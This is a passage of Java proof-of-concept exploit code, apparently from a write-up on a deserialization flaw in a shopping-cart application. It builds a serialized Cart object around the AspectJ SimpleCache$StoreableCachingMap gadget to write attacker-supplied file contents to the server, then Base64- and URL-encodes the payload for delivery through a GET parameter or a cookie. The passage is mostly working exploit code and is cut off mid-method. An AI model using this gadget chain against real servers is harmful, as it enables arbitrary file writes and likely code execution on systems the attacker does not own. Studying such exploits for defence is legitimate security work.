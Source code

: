 ```
    fis.close();
    return result;
`}`

public static Cart cookiePayload() throws Exception `{`
    Cart cart = new Cart();
    Constructor ctor = Reflections.getFirstCtor("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
    Object simpleCache = ctor.newInstance(".", 12);//获得obj
    cart.setSkuDescribe((Map&lt;String, Object&gt;) simpleCache);
    return cart;
`}`

public static Cart getPayload() throws Exception `{`
    Map map = new HashMap();
    Cart cart = new Cart();
    String filepath = "1.txt";
    String data = readFile(filepath);
    map.put("2.txt",data.getBytes(StandardCharsets.UTF_8));//编码
    cart.setSkuDescribe(map);
    return cart;
`}`

public static String getURLEncoderString(String str) `{`
    String result = "";
    if (null == str) `{`
        return "";
    `}`
    try `{`
        result = java.net.URLEncoder.encode(str, "UTF-8");
    `}` catch (UnsupportedEncodingException e) `{`
        e.printStackTrace();
    `}`
    return result;
`}`

public static String URLDecoderString(String str) `{`
    String result = "";
    if (null == str) `{`
        return "";
    `}`
    try `{`
        result = java.net.URLDecoder.decode(str, "UTF-8");
    `}` catch (UnsupportedEncodingException e) `{`
        e.printStackTrace();
    `}`
    return result;
`}`

public static String Exp(Cart poc)throws Exception`{`
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(poc);
    baos.close();
    return (new BASE64Encoder().encode(baos.toByteArray()).replace("\r\n", ""));
`}`

public static void main(String[] args) throws Exception `{`
    System.out.println("--------------------------------------------get数据-------------------------------------------");
    System.out.println(getURLEncoderString(Exp(getPayload())));
    System.out.println("--------------------------------------------cookie数据----------------------------------------");
```